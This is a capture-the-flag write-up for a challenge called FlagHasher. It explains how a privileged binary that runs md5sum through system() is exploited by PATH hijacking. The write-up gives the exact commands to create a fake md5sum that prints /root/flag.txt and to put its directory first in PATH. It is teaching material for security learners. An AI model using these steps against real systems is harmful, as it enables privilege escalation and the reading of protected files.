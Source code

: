 # Hash-only 1

**Challenge Name:** FlagHasher

**Category:** Binary Exploitation / Privilege Escalation

**Description:** We are given a binary `flaghasher` that has enough privileges to read `/root/flag.txt`. However, instead of printing the flag, it computes and outputs the **MD5 hash** of the file. The goal is to retrieve the actual flag instead of just its hash.

---

### Running the Binary

Executing the binary gives the following output:

```
$ ./flaghasher
Computing the MD5 hash of /root/flag.txt....
4d4f660d53535446f15c1a3a7b535e50  /root/flag.txt
```

This confirms that the binary:

- Has read access to `/root/flag.txt`
- Uses `md5sum` to compute the hash
- Uses `system()` to execute shell commands

We used `strings` to check for the file functions:

```
$ strings flaghasher
...
/bin/bash -c 'md5sum /root/flag.txt'
...
system
...
```

This confirms that `flaghasher` is executing `md5sum /root/flag.txt` via `system()`, meaning it might be vulnerable to **PATH hijacking**.

---

## 

Since `system()` executes commands without specifying absolute paths, we can create a **fake `md5sum`** script and manipulate `PATH` to trick the binary into running our script instead.

### **1. Create a Fake `md5sum` Script**

```
echo -e '#!/bin/bash\ncat /root/flag.txt' > md5sum
chmod +x md5sum
```

This script will simply **print the contents** of `/root/flag.txt` instead of computing the MD5 hash.

### **2. Create a Fake Binary Directory**

```
mkdir /tmp/fakebin
mv md5sum /tmp/fakebin/
```

Now, we have placed our fake `md5sum` inside a directory that we control.

### **3. Modify the `PATH` Variable**

```
export PATH="/tmp/fakebin:$PATH"
```

This ensures that when `flaghasher` runs `md5sum`, it will execute **our fake script** instead of the real one.

### **4. Run `flaghasher` Again**

```
./flaghasher
```

![image.png](image.png)